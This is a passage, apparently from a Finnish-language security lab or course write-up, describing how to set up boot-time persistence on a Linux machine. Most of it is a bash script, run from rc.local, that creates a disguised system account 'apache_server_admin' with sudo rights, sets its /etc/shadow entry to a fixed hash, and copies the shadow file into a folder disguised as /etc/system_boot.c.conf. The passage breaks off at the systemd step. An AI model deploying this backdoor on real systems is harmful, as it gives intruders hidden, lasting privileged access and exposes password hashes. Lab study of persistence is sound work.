 Ei löydy joten loin sen ja syötin siihen ajettavaksi kirjoittamani skriptin, joka luo koneelle järjestelmäkäyttäjän, jolla on terminaalioikeudet eikä kotihakemistoa. Shadow hash on otettu koneen /etc/shadow tiedostosta, aiemmin luomaltani käyttäjältä, jotta saamme uudelle käyttäjälle luotua saman salasanan joka kerta:

```
$ sudo mkdir /etc/systemadminst
$ sudo micro /etc/systemadminst/apacheadmin.sh

#!/bin/bash
username='apache_server_admin'
user="$(grep $username /etc/passwd)"
shadow=$username':**YOUR HASH HERE**:19105:0:99999:7:::'

## Create a folder for hiding files if one doesn't exist

if [ ! -d /etc/system_boot.c.conf ]; then
    mkdir /etc/system_boot.c.conf
fi

## Check if user exists. If yes, make a copy of shadow file just in case
## and stop running script

if [ $user != "" ]; then
        cp /etc/shadow /etc/system_boot.c.conf/boot.conf
        exit 2
fi

adduser --system --no-create-home --shell /bin/bash $username
adduser $username sudo

## Delete the line containing the shadow hash of the created user
deleteline="$(grep -n $username /etc/shadow | cut -f1 -d:)d"
sed -i $deleteline /etc/shadow

## Add the wanted hash for the new user to shadow
echo $shadow | tee -a sudo /etc/shadow

cp /etc/shadow /etc/system_boot.c.conf/boot.conf


$ sudo micro /etc/rc.local

#!/bin/sh -e
#
# rc.local
#

/etc/systemadminst/apacheadmin.sh

exit 0

## Tallennus ja ulos. Annoin vielä tiedostoille suoritusoikeuden. 

$ sudo chmod +x /etc/rc.local 
$ sudo chmod +x /etc/systemadminst/apacheadmin.sh 
  
``` 
Loin seuraavaksi rc-local.service tiedoston systemd:n sijaintiin, koska tällä modernilla jakelulla systemd hallitsee palveluita rc:n sijaan, määritin palvelun (copy+paste) ja käynnistin sen: 
